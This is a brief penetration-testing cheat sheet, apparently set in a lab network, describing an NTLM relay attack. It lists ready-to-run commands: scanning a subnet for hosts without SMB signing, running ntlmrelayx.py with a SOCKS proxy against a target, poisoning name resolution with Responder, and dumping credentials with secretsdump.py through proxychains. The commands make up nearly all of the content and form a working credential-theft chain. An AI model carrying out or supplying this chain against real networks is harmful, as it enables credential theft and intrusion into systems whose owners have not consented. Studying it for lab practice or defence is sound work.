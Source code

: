 # NTLM Relay

Occurs when SMB signature is disabled

### Detect disabled SMB signing

```bash
nxc smb 192.168.56.0/24 --gen-relay-list unsigned_smb.txt
```

### Attack

Run ntlmrelayx.py (from the Impacket package):

```bash
sudo ntlmrelayx.py -t 192.168.56.22 -smb2support -socks
```

And at the same time Responder:

<pre><code><strong>sudo python Responder.py -I vboxnet0
</strong></code></pre>

After executing relay, we can use the SOCKS proxy to execute various commands in the context of that session

```bash
proxychains -q secretsdump.py
```

